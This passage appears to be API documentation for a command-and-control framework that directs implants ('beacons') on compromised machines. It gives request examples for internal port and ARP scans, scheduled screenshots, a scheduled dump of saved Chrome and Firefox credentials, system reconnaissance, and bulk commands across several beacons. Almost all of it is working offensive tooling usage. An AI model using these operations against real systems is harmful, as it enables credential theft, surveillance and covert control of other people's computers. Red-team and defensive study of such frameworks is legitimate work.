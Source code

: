 ```bash
Body: {
  "operation": "portscan",
  "target": "192.168.1.100"
}

# ARP scan
POST /api/beacon/{beacon_id}/network
Headers: X-API-Key: <key>
Body: {"operation": "arp"}
```

### Scheduled Tasks
```bash
# Schedule screenshot for later
POST /api/beacon/{beacon_id}/task
Headers: X-API-Key: <key>
Body: {
  "type": "screenshot",
  "data": "",
  "schedule_time": "2025-11-01T14:00:00"
}

# Schedule credential dump
POST /api/beacon/{beacon_id}/task
Headers: X-API-Key: <key>
Body: {
  "type": "dump_creds",
  "data": "chrome,firefox",
  "schedule_time": "2025-11-01T02:00:00"
}
```

### System Information
```bash
# Request full system info
POST /api/beacon/{beacon_id}/sysinfo
Headers: X-API-Key: <key>
```

### Bulk Operations
```bash
# Send command to multiple beacons
POST /api/beacons/bulk/command
Headers: X-API-Key: <key>
Body: {
  "beacon_ids": ["beacon1", "beacon2", "beacon3"],
  "command": "whoami"
}
```

---
